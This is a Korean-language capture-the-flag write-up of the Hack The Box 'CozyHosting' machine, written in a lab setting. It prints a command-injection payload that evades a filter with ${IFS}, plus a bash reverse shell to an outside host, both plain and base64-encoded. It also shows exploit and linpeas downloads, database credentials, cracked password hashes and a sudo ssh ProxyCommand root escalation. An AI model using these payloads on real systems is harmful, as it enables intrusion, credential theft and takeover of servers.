

# CozyHosting
## TARGET IP: 10.129.216.42

nmap 으로 호스트 서버 포트 스캔
```bash
nmap -sV -sC $ip -p 22,80 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
현재 열려있는 포트
- 22/tcp OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
- 80/tcp http    nginx 1.18.0  
80번포트에서 http://cozyhosting.htb로 리다이렉션중
```bash
#/etc/hosts에 아래줄 추가
10.129.216.42   cozyhosting.htb
```

## 웹서비스 분석  


웹페이지 소스에서 현재 사용중인 템플릿 확인  
    * Template Name: FlexStart  
    * Updated: Mar 10 2023 with Bootstrap v5.2.3  
    * Template URL: https://bootstrapmade.com/  flexstart-bootstrap-startup-template/  
    * Author: BootstrapMade.com  
    * License: https://bootstrapmade.com/license/  


```bash
#gobuster를 사용해서 웹디렉토리 브루트포싱
gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt

/admin                (Status: 401) [Size: 97]
/error                (Status: 500) [Size: 73]
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/logout               (Status: 204) [Size: 0]
```
burpsuite을 사용해서 웹사이트 요청 응답 헤더 확인


```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://cozyhosting.htb/ -H "Host: FUZZ.cozyhosting.htb" -fs 178 

# 결과없음
```
단서를 찾기 못해서 둘러보던중 javaspring에 맞춰진 단어리스트가 존재한다는걸 알게됐다.  

```bash
gobuster dir -u http://cozyhosting.htb/ -w /root/Hack_The_Box/CozyHosting/Java-Spring-Boot.txt -x php,txt 

/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/sessions    (Status: 200) [Size: 48]
```

http://cozyhosting.htb/actuator/sessions에 접속하면   

{"DDB750C9EDAA36E27280D0A74C7C06C7":"kanderson"}해당 세션정보를 볼 수 있다  


해당세션으로 http://cozyhosting.htb/admin에 접속하면 어드민 페이지로 접속을 할 수 있다  


## EXPLOIT

admin페이지에는 hostname에 아이피를 넣으면 서버에서 ssh접속을 요청하는것 같다

예상 요청)  
ssh id_rsa username@hostname  
웹에서 유저가 보낸 요청에 의해서 명령어를 실행한다 input을 악용해서 공격자가 원하는 명령어를 실행시킬 수도 있다  
hostname은 ip양식에 맞게 작성해야하기 때문에 비교적 자유로운 username에 악성 payload 시도

해당요청을 host=127.0.0.1&username=test;\`whoami\`로 보내면 response location header에서 app@127.0.0.1 으로 rce를 성공한걸 확인가능하다 

username=test;\`bash -i >& /dev/tcp/10.10.14.74/9999 0>&1\` 시도  
오류 메시지  
The host was not added!  
Username can't contain whitespaces!

\${IFS}(Bash에서 공백 대체 변수)를 사용해서 우회시도  

성공했다 이제 리버스셸로 원격접속 시도  
username=test;\`bash${IFS}-i\${IFS}>&\${IFS}/dev/tcp/10.10.14.74/9999\${IFS}0>&1\`  
실패했다 아마도 필터링이 있는거같다 base64로 인코딩해서 페이로드 전송시도  

```bash
echo 'bash -i >& /dev/tcp/10.10.14.74/9999 0>&1' | base64     
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NC85OTk5IDA+JjEK
# 리버스셸 base64로 인코딩

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NC85OTk5IDA+JjEK' | base64 -d | bash 
# 위 페이로드에 ${IFS} 적용

echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NC85OTk5IDA+JjEK'${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash
```


리버스셸 연결에 성공했다  

## POST-EXPLOIT 

```bash
# 셸 안정화
app@cozyhosting:/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
#ctrl + Z
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# stty raw -echo;fg        
app@cozyhosting:/app$ 

#정보 탐색
app@cozyhosting:/home$ uname -a
Linux cozyhosting 5.15.0-82-generic #91-Ubuntu SMP Mon Aug 14 14:14:14 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

app@cozyhosting:/home$ find / -perm -4000 -type f 2>/dev/null

/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/pkexec # 권한 상승  취약점
/usr/bin/mount

┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# wget https://github.com/ly4k/PwnKit/raw/refs/heads/main/PwnKit
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# python3 -m http.server 7777 

app@cozyhosting:/tmp$ wget http://10.10.14.74:7777/PwnKit
app@cozyhosting:/tmp$ chmod +x PwnKit 
app@cozyhosting:/tmp$ ./PwnKit 
Segmentation fault (core dumped) # 익스플로잇 실패


```
linpeas로 권한상승 취약점 탐색

```bash
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# python3 -m http.server 7777  
app@cozyhosting:/tmp$ wget http://10.10.14.74:7777/linpeas.sh
app@cozyhosting:/tmp$ chmod +x linpeas.sh 
app@cozyhosting:/tmp$ ./linpeas.sh | tee linpeas_output.txt

```


로컬호트스에서 접근가능한 포트중에 5432(PostgreSQL 데이터베이스 서버)포트가 눈에 띈다 하지만 사용자 계정이 없음


호스트 서버를 더 둘러보면 처음 셸연결됐을때 홈디렉토리에 cloudhosting-0.0.1.jar파일을 조사
```bash
app@cozyhosting:/app$ python3 -m http.server 5555 

┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# wget http://10.129.216.42:5555/cloudhosting-0.0.1.jar  

┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting/BOOT-INF/classes]
└─# cat application.properties 
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR 
```
postgresql의 계정정보로 보이는 정보를 얻었다  
username=postgres  
password=Vg&nvzAQ7XxR  

```bash
app@cozyhosting:/app$ psql -U postgres -h localhost # psql 로컬호스트 postgres사용자로 접속 
Password for user postgres: Vg&nvzAQ7XxR
postgres-# \list    #db dump                                                    
                                                                                                               
                                   List of databases                                                                                       
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil                                                           
eges                                                                                                                                       
-------------+----------+----------+-------------+-------------+----------------                                                           
-------                                                                                                                                    
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |                                                                           
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |                                                                           
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres                                                               
      +        
postgres-# \c cozyhosting #cozyhosting db 선택
cozyhosting-# \dt   # table list dump

         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres


cozyhosting=# select * from users;      #users table 내용 dump

   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi

# admin과 kanderson의 password hash값을 알게됐다
                                                                                                                     
```
## hash cracking

```bash
hashid hash.txt 
--File 'hash.txt'--
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
...
```
manchesterunited 비밀번호를 알아냈다  

## josh사용자로 post-exploit
home directory에 있던 josh로 ssh 접속시도
```bash
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# ssh josh@10.129.216.42  
josh@10.129.216.42 password: manchesterunited

josh@cozyhosting:~$ id

uid=1003(josh) gid=1003(josh) groups=1003(josh)
# josh사용자로 ssh 연결 성공
josh@cozyhosting:~$ cat /home/josh/user.txt 
c933f6d88e6a49b7ce2315c332b4c5d5 # userflag


josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
# ssh 명령어를 sudo 명령어로 사용할 수 있다

```


gtfo에서 ssh가 sudo로 사용했을때 post-exploit 명령어를 확인가능하다  

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root) #루트권한 획득
# cat /root/root.txt
a1affc7434b3774a6d1a3ef8a0a57398 # rootflag

```

# 취약점

- 웹 디렉토리 브루트포싱을 통해 민감한 session이 탈취 당함  

- 단순 session 인증만으로 로그인접속 우회 가능  

- admin페이지에서 웹에서 요청을 보내는 서비스에서 사용자 input에 의해서 rce 취약점 발생  
- 웹서버내 저장되어있는 파일에 비밀번호가 해시로 암호화는 되어있으나 평문 비밀번호가 취약해서 브루트포싱에 복호화됨
- josh사용자의 sudo 권한 설정에 권한상승 취약점이 있는 ssh가 설정되어있음음

